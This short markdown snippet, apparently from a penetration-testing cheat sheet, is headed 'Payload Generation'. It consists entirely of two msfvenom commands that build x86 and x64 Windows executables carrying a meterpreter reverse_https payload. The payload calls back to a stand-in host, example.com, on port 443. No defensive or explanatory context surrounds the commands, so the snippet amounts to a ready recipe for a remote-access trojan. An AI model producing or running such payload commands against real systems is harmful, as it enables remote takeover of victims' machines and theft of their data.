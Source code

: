 ## Payload Generation

### Reverse https meterpreter

```bash
msfvenom -a x86 --platform windows -p windows/meterpreter/reverse_https lhost=example.com lport=443 -f exe -o my.exe
```

```bash
msfvenom -a x64 --platform windows -p windows/x64/meterpreter/reverse_https lhost=example.com lport=443 -f exe -o my.exe
```
